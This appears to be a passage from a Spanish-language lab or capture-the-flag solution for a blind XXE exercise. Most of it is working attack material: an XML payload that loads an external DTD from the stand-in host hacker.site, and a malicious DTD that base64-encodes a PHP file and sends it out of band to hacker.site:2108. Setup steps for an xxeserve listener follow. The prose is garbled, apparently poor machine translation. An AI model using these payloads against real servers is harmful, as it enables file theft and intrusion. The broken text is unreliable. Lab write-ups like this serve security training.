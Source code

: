 Part 2

```bash
./file_extractor.sh /var/www/5/hidden/
```

### Solutions - Lab #6

Blind XXE aquí. IT requiere algunas explotacións de OOB:

_Salígue de aquí_ Subs de explotación

La solución está dentro de .letmepass.php; esta es una explotación de XXE ciego, por lo que es necesario configurar un canal OOB.

Estos son los pasos:

Ejerce la carga útil XML moviendo las definiciones de entidad externa en otro archivo DTD (evil-oob.dtd)

```xml
<?xml version='1.0'?>
<!DOCTYPE xxe [
    <!ENTITY % EvilDTD SYSTEM 'http://hacker.site/evil_oob.dtd'>
    %EvilDTD;
    %LoadOOBEnt;
    %OOB;
]>
<login>
    <username>XXEME</username>
    <password>password</password>
</login>
```

Crear maloob.dtd de la siguiente manera:

```xml
<!ENTITY % resource SYSTEM "php://filter/read=convert.base64-encode/resource=file:///var/www/6/.letmepass.php">
<!ENTITY % LoadOOBEnt "<!ENTITY &#x25; OOB SYSTEM 'http://hacker.site:2108/?p=%resource;'>">
```

> \[Nota] http://hacker.site:2108/xml?p=%resource es el camino donde la cáscara xxeserve está escuchando; puedes cambiarlo con lo que quieres.

* Ejecutar el guión de xxeserve

ruby xxeserve.rb

Puedes mejorar xxeserve añadiendo las siguientes líneas. De esta manera, puede personalizar el puerto y alojar para usar:

```bash
set :bind, 'hacker.site'
set :port, 2108
```

Base64 Decode

Decode lo que ha recibido la concha. Comae con la carpeta de archivos
